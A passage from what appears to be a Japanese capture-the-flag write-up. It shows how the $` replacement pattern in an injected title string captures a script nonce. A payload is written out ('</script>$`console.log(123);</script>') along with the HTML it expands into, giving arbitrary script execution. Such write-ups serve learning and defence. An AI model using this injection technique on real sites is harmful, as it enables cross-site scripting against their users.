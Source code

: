![](./img/pico-note-1-01.png)

つまり、挿入文字列の中に
```
$`
```
を含めることによって、挿入箇所の前に存在する文字列の参照が可能になり、また、そこには
```javascript
<script nonce="{{nonce}}">
```
の文字列が存在するため、いい感じにnonce値を拾ってくることが可能ということがわかります。

実際に`title`の値を
```html
</script>$`console.log(123);</script>
```
に設定すると、
```html
</script><!DOCTYPE html>
<html>
  <head>
<!-- ...省略... -->
    </div>
    <script nonce="{{nonce}}">
      const { title, content } = console.log(123);</script>
```
のように展開されて、任意スクリプトの実行が可能になります。

### ソルバ
